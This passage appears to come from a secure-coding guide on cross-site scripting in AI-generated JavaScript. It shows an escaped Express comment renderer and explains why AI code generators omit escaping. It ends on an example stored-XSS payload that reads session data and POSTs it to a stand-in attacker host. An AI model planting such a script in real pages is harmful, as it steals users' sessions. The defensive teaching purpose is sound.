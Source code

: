 ### Secure Implementation

```javascript
const escapeHtml = require('escape-html');

app.get('/comments/:postId', async (req, res) => {
    const comments = await getComments(req.params.postId);

    let html = `
        <div class="comments">
            <h2>Comments</h2>
    `;

    comments.forEach(comment => {
        // ✅ SECURE: HTML escaping prevents XSS
        html += `
            <div class="comment">
                <strong>${escapeHtml(comment.author)}</strong>
                <p>${escapeHtml(comment.content)}</p>
                <small>${escapeHtml(comment.timestamp)}</small>
            </div>
        `;
    });

    html += '</div>';

    // ✅ SECURE: Set proper Content-Type and CSP headers
    res.set('Content-Type', 'text/html; charset=utf-8');
    res.set('Content-Security-Policy', "default-src 'self'; script-src 'self'");
    res.send(html);
});
```

### Why AI Generates This Vulnerability

**1. Template String Convenience:**
- JavaScript template literals are convenient
- AI uses them consistently across codebase
- Doesn't distinguish between trusted and untrusted content

**2. Missing Context Awareness:**
- AI doesn't recognize when content comes from users
- Can't reason about XSS attack vectors
- Focuses on displaying data, not securing it

**3. Training on Frontend Frameworks:**
- Modern frameworks (React, Vue) auto-escape
- AI extends this pattern to manual HTML generation
- Forgets that manual HTML requires manual escaping

### XSS Attack Scenarios

**Attack 1: Session Theft**
```javascript
comment.content = `
<script>
  fetch('/api/session')
    .then(r => r.json())
    .then(data => {
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
</script>
```